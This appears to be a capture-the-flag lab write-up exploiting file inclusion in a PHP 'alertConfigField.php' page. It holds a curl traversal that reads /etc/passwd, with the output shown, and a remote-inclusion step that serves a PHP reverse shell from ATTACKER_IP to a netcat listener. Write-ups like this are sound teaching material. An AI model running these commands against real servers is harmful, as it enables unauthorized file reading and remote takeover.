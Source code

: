 An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

* Verify exploit functionality.

curl http://TARGET\_IP/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Field configuration:

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false \_apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false postfix:x:113:121::/var/spool/postfix:/bin/false mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false

#### **Include remote file for malicious purposes using remote files inclusion (RFI) (Execution: Exploitation for Client Execution (T1203))** <a href="#l0vfo9q3dkp8" id="l0vfo9q3dkp8"></a>

1. Create copy of php-reverse-shell.php.

cp /usr/share/webshells/php/php-reverse-shell.php ./

* Change IP of php-reverse-shell.php to attack host.

1. Create netcat listener.

nc -lvnp 1234

1. Serve php-reverse-shell.php to target host.

python3 -m http.server

1. Amend exploitable URL to include hosted reverse shell.

curl http://TARGET\_IP/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://ATTACKER\_IP:8000/php-reverse-shell.php

* Target host requests php-reverse-shell.php.
